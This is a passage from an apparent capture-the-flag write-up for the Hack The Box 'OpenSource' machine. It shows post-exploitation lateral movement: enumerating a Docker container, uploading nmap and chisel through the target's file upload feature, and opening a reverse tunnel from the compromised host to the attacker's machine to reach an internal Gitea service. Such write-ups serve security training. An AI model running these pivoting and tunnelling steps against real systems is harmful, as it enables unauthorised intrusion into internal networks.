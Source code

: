 ```bash
*** migrated the shell on nc ***
```

# Lateral Movement to user

## Local enumeration

Enumerated the target machine from the docker network:

```bash
/ # ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
16: eth0@if17: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP
    link/ether 02:42:ac:11:00:08 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.8/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

Uploaded nmap using the file upload feature:

[static-binaries/nmap at master · andrew-d/static-binaries](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap)

```bash
/app/public/uploads # ./nmap 10.129.68.116 -p 3000

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2022-05-23 09:48 GMT
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 10.129.68.116
Host is up (0.000095s latency).
PORT     STATE SERVICE
3000/tcp open  unknown
```

## Port 3000 - Gitea v.1.16.6

Uploaded chisel on the box and performed a reverse tcp tunnel to port 3000:

[Releases · jpillora/chisel](https://github.com/jpillora/chisel/releases)

```bash
┌──(maoutis㉿kali)-[~/CTF/HTB/OpenSource/exploit]
└─$ ./chisel_1.7.7_linux_amd64 server -p 3000 --reverse
2022/05/23 13:20:13 server: Reverse tunnelling enabled
2022/05/23 13:20:13 server: Fingerprint fm9tUZlKfgimQ9iuIXsEGwfgoo8om8q5kAP2SBMVJb4=
2022/05/23 13:20:13 server: Listening on http://0.0.0.0:3000
```

```bash
/app/public/uploads # ./chisel_1.7.7_linux_amd64 client 10.10.14.46:3000 R:3001:10.129.68.116:3000
2022/05/23 11:22:55 client: Connecting to ws://10.10.14.46:3000
2022/05/23 11:22:55 client: Connected (Latency 39.166891ms)
```
